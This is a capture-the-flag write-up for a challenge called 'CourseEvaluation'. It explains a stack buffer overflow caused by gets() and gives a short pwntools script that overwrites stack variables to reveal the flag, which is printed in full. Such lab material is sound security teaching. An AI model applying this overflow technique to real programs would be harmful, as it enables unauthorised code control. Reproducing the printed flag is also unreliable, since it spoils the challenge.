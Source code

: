 # CourseEvaluation

### Description

Give us a good feedback and we might give you the flag!

### Rules
You cannot patch this binary.
The challenge MUST BE SOLVED by providing an appropriate input.
Solutions that jump directly to the print flag function WILL NOT BE CONSIDERED.
Do not modify the flag.txt file.

## Solution

We have a trivial buffer overflow vulnerability, we just need to overwrite some stack variables with the correct values.
The input length isn't checked due to the use of `gets()` for handling user input, the target buffer is 50 bytes long, its content aren't checked against anything so we can just fill it with `A`s.
The only important thing here is overwriting the variables with the correct value and in the correct order (that's easily checked by looking at the variables position in the stack).

```python
from pwn import *  # type: ignore

context.binary = "./courseEval"
p = process()
p.sendline(b"A" * 56 + b"UniPD_01" + b"CPP-" + b"PWN-" + b"Pier")

log.success(p.recvline_regex(rb"SPRITZ{.*}").decode("ascii"))

```

### Flag

```plain
SPRITZ{CPP_PWNs_Everything_173453}
```

